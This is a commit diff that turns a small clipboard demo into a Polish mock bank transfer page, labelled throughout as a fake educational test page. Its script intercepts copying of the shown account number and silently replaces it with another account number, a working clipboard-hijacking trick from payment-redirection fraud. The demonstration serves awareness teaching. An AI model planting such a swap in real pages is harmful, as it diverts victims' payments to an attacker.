

Before and after one commit to whomean/clipboard-demo, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,20 +1,157 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="pl">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Clipboard Hijack</title>
+  <meta charset="UTF-8" />
+  <title>Demo Bank – Dane do przelewu</title>
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      background-color: #f4f4f4;
+      margin: 0;
+      padding: 0;
+    }
+    .warning-banner {
+      background-color: yellow;
+      color: red;
+      text-align: center;
+      font-weight: bold;
+      padding: 10px 0;
+      font-size: 1.1em;
+    }
+    header {
+      background-color: #003366;
+      color: white;
+      padding: 15px 20px;
+      display: flex;
+      align-items: center;
+      justify-content: space-between;
+    }
+    header .logo {
+      font-size: 1.5em;
+      font-weight: bold;
+    }
+    header nav a {
+      color: white;
+      text-decoration: none;
+      margin-left: 15px;
+      font-size: 0.9em;
+    }
+    header nav a:hover {
+      text-decoration: underline;
+    }
+    .container {
+      max-width: 600px;
+      margin: 40px auto;
+      background-color: #fff;
+      padding: 20px;
+      border: 1px solid #ccc;
+      border-radius: 4px;
+      box-shadow: 0 0 10px rgba(0,0,0,0.1);
+    }
+    .container h1 {
+      text-align: center;
+      color: red;
+      font-size: 1.5em;
+      margin-top: 0;
+    }
+    .details-title {
+      text-align: center;
+      font-size: 1.2em;
+      margin: 20px 0 10px;
+      color: #333;
+    }
+    table.details {
+      width: 100%;
+      border-collapse: collapse;
+    }
+    table.details td {
+      padding: 8px 5px;
+      vertical-align: top;
+    }
+    table.details .label {
+      font-weight: bold;
+      color: #555;
+      width: 40%;
+      /* Align labels to the right for a neat layout */
+      text-align: right;
+      padding-right: 10px;
+    }
+    table.details .value {
+      color: #000;
+      text-align: left;
+    }
+    footer {
+      text-align: center;
+      font-size: 0.8em;
+      color: #888;
+      margin: 20px 0;
+    }
+  </style>
 </head>
 <body>
-  <h1>Clipboard Demo</h1>
-  <p>Kliknij w pole, skopiuj tekst i wklej gdziekolwiek:</p>
-  <input id="text" value="Skopiuj mnie!" style="width: 80%; padding: 0.5rem;" />
+
+  <!-- Top warning banner -->
+  <div class="warning-banner">
+    FAŁSZYWA STRONA TESTOWA – TYLKO DO CELÓW EDUKACYJNYCH
+  </div>
+
+  <!-- Simulated site header -->
+  <header>
+    <div class="logo">Bank Demo</div>
+    <nav>
+      <a href="#">Strona główna</a>
+      <a href="#">Kontakt</a>
+      <a href="#">Pomoc</a>
+      <a href="#">Wyloguj</a>
+    </nav>
+  </header>
+
+  <!-- Main content container -->
+  <main class="container">
+    <!-- Big central warning text -->
+    <h1>FAŁSZYWA STRONA TESTOWA</h1>
+
+    <!-- Section title for transfer details -->
+    <h2 class="details-title">Dane do przelewu</h2>
+
+    <!-- Transfer details table -->
+    <table class="details">
+      <tr>
+        <td class="label">Nazwa odbiorcy:</td>
+        <td class="value">Jan Kowalski</td>
+      </tr>
+      <tr>
+        <td class="label">Numer rachunku:</td>
+        <td class="value">
+          <span id="account-number">12 3456 7890 1234 5678 9012 3456</span>
+        </td>
+      </tr>
+      <tr>
+        <td class="label">Tytuł przelewu:</td>
+        <td class="value">Zapłata za zamówienie #12345</td>
+      </tr>
+      <tr>
+        <td class="label">Kwota:</td>
+        <td class="value">123,45 PLN</td>
+      </tr>
+    </table>
+  </main>
+
+  <!-- Footer with a generic note -->
+  <footer>© 2025 Bank Demo – Wszelkie prawa zastrzeżone.</footer>
+
   <script>
-    const input = document.getElementById("text");
-    input.addEventListener("copy", (e) => {
-      e.clipboardData.setData("text/plain", "Zmieniona zawartość clipboardu! 😈");
-      e.preventDefault();
+    // Intercept copy events on the account number to replace clipboard content
+    var accNumberElement = document.getElementById('account-number');
+    accNumberElement.addEventListener('copy', function(event) {
+      var clipboardData = event.clipboardData || window.clipboardData;
+      if (clipboardData) {
+        // Replace copied text with the alternate account number
+        clipboardData.setData('text/plain', '98 7654 3210 9876 5432 1098 7654');
+        event.preventDefault();  // Prevent default copy behavior
+      }
     });
   </script>
+
 </body>
 </html>
```
